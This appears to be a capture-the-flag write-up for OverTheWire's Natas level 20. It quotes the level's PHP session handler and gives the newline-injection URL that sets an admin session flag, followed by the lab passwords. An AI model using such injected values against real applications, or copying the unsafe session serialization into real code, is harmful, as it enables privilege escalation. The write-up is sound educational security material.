 ```yaml
---
title: Wargames - Natas 20
published: true 
tags: natas
---
```


## [Level 20](https://overthewire.org/wargames/natas/natas20.html)

Username: natas20
Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF
Lab URL: http://natas20.natas.labs.overthewire.org/

Firstly we should be most interested in source code, lets get closer look. 

This part sets handers to manage session:
```
session_set_save_handler(
    "myopen", // not interesting
    "myclose", // not interesting
    "myread", // interesing
    "mywrite", // interesing
    "mydestroy", // not interesting
    "mygarbage" // not interesting
    );
```

This function set custom handers to process session data. More about it is ![here](https://www.php.net/manual/en/function.session-set-save-handler.php).

I remove all not interesting code from php code:
```
<?
function myread($sid) { 
    debug("MYREAD $sid"); 
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return "";
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    if(!file_exists($filename)) {
        debug("Session file doesn't exist");
        return "";
    }
    debug("Reading from ". $filename);
    $data = file_get_contents($filename);
    $_SESSION = array();
    foreach(explode("\n", $data) as $line) {
        debug("Read [$line]");
    $parts = explode(" ", $line, 2);
    if($parts[0] != "") $_SESSION[$parts[0]] = $parts[1];
    }
    return session_encode();
}

function mywrite($sid, $data) { 
    // $data contains the serialized version of $_SESSION
    // but our encoding is better
    debug("MYWRITE $sid $data"); 
    // make sure the sid is alnum only!!
    if(strspn($sid, "1234567890qwertyuiopasdfghjklzxcvbnmQWERTYUIOPASDFGHJKLZXCVBNM-") != strlen($sid)) {
    debug("Invalid SID"); 
        return;
    }
    $filename = session_save_path() . "/" . "mysess_" . $sid;
    $data = "";
    debug("Saving in ". $filename);
    ksort($_SESSION);
    foreach($_SESSION as $key => $value) {
        debug("$key => $value");
        $data .= "$key $value\n"; // This line is very interesting 
    }
    file_put_contents($filename, $data);
    chmod($filename, 0600);
}

session_set_save_handler(
    "myread", 
    "mywrite", 
);
?> 
```

Ther is possibility to incject own code, by submitting:
```
http://natas20.natas.labs.overthewire.org/index.php?name=admin%0Aadmin%201
```

we receive password.

password: IFekPyrQXftziDEsUr3x21sYuahypdgJ